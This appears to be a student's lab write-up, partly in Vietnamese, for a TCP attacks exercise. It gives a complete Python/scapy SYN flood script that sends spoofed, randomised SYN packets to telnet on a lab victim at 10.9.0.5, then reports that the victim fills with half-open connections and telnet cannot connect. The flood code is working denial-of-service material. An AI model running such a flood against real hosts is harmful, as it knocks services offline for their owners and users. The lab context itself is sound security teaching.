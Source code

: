 # TCP Attacks
## Task 1.1: Launching the Attack using Pythong
- Attack script:
```python
#! /bin/python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits


ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))
    pkt[TCP].sport = getrandbits(16)
    pkt[TCP].seq = getrandbits(32)
    send(pkt, verbose=0)
```

### Kết quả
- Tại máy victim `10.9.0.5`:
  - Rất nhiều kết nối với source IP và source port khác nhau được tạo ra:  
  
  ![image](https://user-images.githubusercontent.com/44528004/142655669-96b09f7a-78b7-42d4-a86d-525788bc6273.png)

- Thử telnet vào máy victim thì thấy là trạng thái liên tục `Trying` và không thể kết nối tới máy victim:  

![image](https://user-images.githubusercontent.com/44528004/142655862-e08bccb9-3e95-4a46-a6b7-be82ebee7865.png)
